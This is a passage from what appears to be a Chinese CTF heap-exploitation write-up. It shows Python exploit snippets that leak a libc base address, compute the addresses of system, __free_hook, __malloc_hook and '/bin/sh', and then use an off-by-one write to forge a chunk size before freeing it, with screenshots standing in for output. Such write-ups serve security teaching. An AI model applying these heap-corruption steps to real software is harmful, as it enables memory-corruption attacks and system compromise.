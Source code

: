 ```plain
add(0x88,'aaaa')
add(0x18,'aaaa')
delete(1)
add(0x88,'a'*8)
show(1)
ru('aaaaaaaa')
libc_base = u64(p.recv(6).ljust(8,'\x00'))-0x3c4b0a
leak('libc_base ',libc_base)
system = libc_base + libc.sym['system'] 
free_hook = libc_base + libc.sym['__free_hook']
malloc_hook = libc_base + libc.sym['__malloc_hook']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
```

[![](assets/1701606615-2913be0d66c3c7e56e1b8a81449c24fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213316-884b25d2-83bb-1.png)  
然后直接利用off by one 修改size，然后把这个chunk free掉

```plain
add(0x18,'')
add(0x18,'')
add(0x18,'')
add(0x18,'')

edit(2,p64(0)*3+p8(0x81))
delete(3)
```

[![](assets/1701606615-f71e9afc0c1acd0fa3c829bb022a61c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213336-9478687e-83bb-1.png)
